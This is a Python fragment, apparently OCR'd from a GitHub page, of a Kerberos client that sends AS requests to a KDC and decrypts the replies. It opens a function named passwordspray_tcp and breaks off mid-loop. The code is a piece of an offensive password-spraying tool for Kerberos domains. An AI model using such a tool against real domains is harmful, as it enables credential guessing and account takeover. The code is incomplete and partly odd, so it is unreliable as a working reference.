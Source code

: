 ```python
def send_req_tcp(req, kdc, port=88):
    data = encode(req)
    data = pack('>I', len(data)) + data
    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    sock.connect((kdc, port))
    sock.send(data)
    return sock

def send_req_udp(req, kdc, port=88):
    data = encode(req)
    sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
    sock.connect((kdc, port))
    sock.send(data)
    return sock

def recv_rep_tcp(sock):
    data = ''
    datalen = None
    while True:
        rep = sock.recv(8192)
        if not rep:
            sock.close()
            raise IOError('Connection error')
        data += rep
        if len(rep) >= 4:
            if datalen is None:
                datalen = unpack('>I', rep[:4])[0]
            if len(data) >= 4 + datalen:
                sock.close()
                return data[4:4 + datalen]

def recv_rep_udp(sock):
    data = ''
    datalen = None
    while True:
        rep = sock.recv(8192)
        if not rep:
            sock.close()
            raise IOError('Connection error')
        data += rep
        if len(rep) >= 4:
            sock.close()
            return data

def _decrypt_rep(data, key, spec, enc_spec, msg_type):
    rep = decode(data, asn1Spec=spec)[0]
    rep_enc = str(rep['enc-part']['cipher'])
    rep_enc = decrypt(key[0], key[1], msg_type, rep_enc)
    rep_enc = decode(rep_enc, asn1Spec=enc_spec)[0]
    
    return rep, rep_enc
    

def passwordspray_tcp(user_realm, user_name, user_key, kdc_a, orgin_key):
    nonce = getrandbits(31)
    current_time = time()
    as_req = build_as_req(user_realm, user_name, user_key, current_time, nonce)
    sock = send_req_tcp(as_req, kdc_a)
    data = recv_rep_tcp(sock)
    i=0
    for c in data:       
        i=i+1
        if(i==18):
```